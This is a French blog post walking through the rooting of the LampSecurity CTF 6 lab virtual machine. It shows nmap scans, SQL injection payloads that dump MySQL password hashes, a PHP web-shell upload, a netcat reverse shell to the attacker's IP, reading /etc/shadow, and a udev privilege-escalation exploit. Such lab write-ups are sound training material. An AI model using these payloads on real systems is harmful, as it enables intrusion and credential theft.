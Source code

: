 ```yaml
---
layout: post
title:  "LampSecurity CTF 6"
date:   2009-07-28 20:18:00 +0100
categories: [security]
---
```

Je me suis attaqué à l'épreuve proposée par [lampsecurity](https://web.archive.org/web/20130510094426/http://www.lampsecurity.org/), le principe est de faire tourner une machine virtuelle et de la rooter. Si le challenge vous intéresse c'est [ici](http://www.lampsecurity.org/capture-the-flag-6). Il y a aussi une solution en pdf. Je propose une autre solution ici, si vous n'avez pas fait l'épreuve essayé là avant de lire ce qui suit.

Pour l’installation de l’épreuve j’ai utilisé `VMware player 2.5.2 build-156735`  
Pour la mise en place, la carte réseau virtuel est en mode bridged (`Devices->Network adapteur->Bridged`) ensuite il suffit de lancer la machine et c’est parti. Le mode bridged induit le fait que la machine sera sur le réseau local. Comme je travail sous windows, je commence par un:

```
ipconfig /all
Masque de sous-réseau . . . . . . : 255.255.255.0
Passerelle par défaut . . . . . . : 192.168.1.1
Serveur DHCP. . . . . . . . . . . : 192.168.1.1
```

Ensuite on lance [Nmap](nmap.org) pour localiser la machine:

```
nmap -T4 -A -v -PE -PS22,25,80 -PA21,23,80,3389 192.168.1.0/24
```

Chez moi son ip est `192.168.1.114`. Puis je scan les ports:

```
nmap -p 1-65535 -T4 -A -v -PE -PS22,25,80 -PA21,23,80,3389 192.168.1.114
```

Étant une épreuve ciblée sur apache & co le seul port ouvert est le port 80/http.
On se rend sur le site web et après quelques tests on se rend compte que le site est criblé de failles: upload, sql injection, etc.
`http://192.168.1.114/index.php?id=1 OR 1=1` affiche tout les évents.

Ensuite on essaye de comprendre comment est structuré la requête. On peut interagir avec 3 champs, apparemment `2,3,7`, pour récupérer des informations.  
`?id=1 UNION SELECT 1,user(),database(),4,5,6,@@VERSION` se qui nous donne:
* user: cms_user@localhost
* Version du serv sql : 5.0.45
* Table utilisé: cms

Ensuite je me suis intéressé à la base `information_schema` pour avoir une vu global de la base de donnée.
Par exemple `?id=1 UNION SELECT 1,2,3,4,5,6,SCHEMA_NAME from information_schema.schemata` nous indique que la base de donné ressemble à ça:
* information_schema
* cms
* mysql
* roundcube
* test

```
?id=1 UNION SELECT 1,Host,User,4,5,6,Password from mysql.user
root@localhost : 6cbbdf9b35eb7db1 -> mysqlpass
cms_user@% : 2e0cfd856355b099 -> 45kkald?8laLKD
```

On peut aussi scanner les répertoires du site où on trouve le fichier `http://192.168.1.114/sql/db.sql` d'où on récupère des infos sur la table `cms.user`, ce qui nous donne le pass admin du site. (on remarquera au passage qu'il y a des sessions stoquées dans la BDD...).

admin : 25e4ee4e9229397b6b17776bfceaf8e7 -> adminpass  
On se log donc et on profite de l'upload d'image non filtré. les images sont stoquées dans `files/`. Hop on upload un script php avec un `system($cmd)`. On en a fini pour la partie web, le plus intéressant arrive:

```
uname -a
Linux 2.6.18-92.el5 #1 SMP Tue Jun 10 18:49:47 EDT 2008 i686 i686 i386 GNU/Linux

cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
apache:x:48:48:Apache:/var/www:/sbin/nologin
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
fred:x:502:502::/home/john:/bin/bash
```

On ne peut pas se loger avec apache, ni utiliser `passwd` pour nous créer un compte ssh. J'upload un netcat compilé sur une autre box vu que le script d'upload filtre rien, c'est la solution la plus simple a mon gout.

```
Coté attaquant  : C:\\>nc -v -l -p 2501
Coté victime    : ?cmd=./netcat -e /bin/sh 192.168.1.111 2501
```

On a un shell, il nous reste plus qu'a élever nos privilèges sur la cible. La faille vmsplice ne donne rien, [udev](http://www.milw0rm.com/exploits/8478) par contre... L’exploitation est un peu complexe, J'ai eu recours à la solution proposé par lampsec. En gros le sploit a besoin d'un pid qu'on ne peut pas retrouver précisément. On se base sur ça:

```
cat /proc/net/netlink
sk       Eth Pid    Groups   Rmem     Wmem     Dump     Locks
cfc43c00 0   3153   00000111 0        0        00000000 2
cfecce00 0   0      00000000 0        0        00000000 2
cf5f8000 6   0      00000000 0        0        00000000 2
cf54b800 7   0      00000000 0        0        00000000 2
ce733e00 9   2467   00000000 0        0        00000000 2
cfe4f000 9   0      00000000 0        0        00000000 2
cfe46c00 10  0      00000000 0        0        00000000 2
cfbecc00 11  0      00000000 0        0        00000000 2
cfc43a00 15  571    ffffffff 0        0        00000000 2 <-- ici
cfeccc00 15  0      00000000 0        0        00000000 2
cfbeca00 16  0      00000000 0        0        00000000 2
cfcf0200 18  0      00000000 0        0        00000000 2
```

Le pid utilisé dans l'exploit devrai être `571-1`, en réalité ça a fonctionné avec le pid `573` donc n'hésitez pas à faire plusieurs test... J'ai modifié le script de la faille udev car nous n'avons pas de shell interactif, juste une connexion avec netcat. J’ai donc copié les fichiers `/etc/shadow` & `/etc/passwd` avec les droits de lecture pour apache. Ensuite on crack les pass obtenus à l’aide de [John the ripper](http://www.openwall.com/john/) ce qui donne un résultat assez rapidement.  
fred : fred1989

On peut donc maintenant se loger en ssh et profiter d’un vrai shell, on relance le sploit udev en le modifiant encore pour ne pas avoir d'erreur d'acces en écriture/lecture (celui si utilise des liens hardcodés donc `/tmp/suid` est inaccessible. On modifie donc `/tmp/suid` par `/tmp/suidBis`). On relance le sploit modifié avec cette fois si un `execl(“/bin/sh”, “sh”, NULL);` et on obtient notre shell avec les droits root!

Il y a surement d’autres solutions, comme au niveau de roundcube ou des sessions!
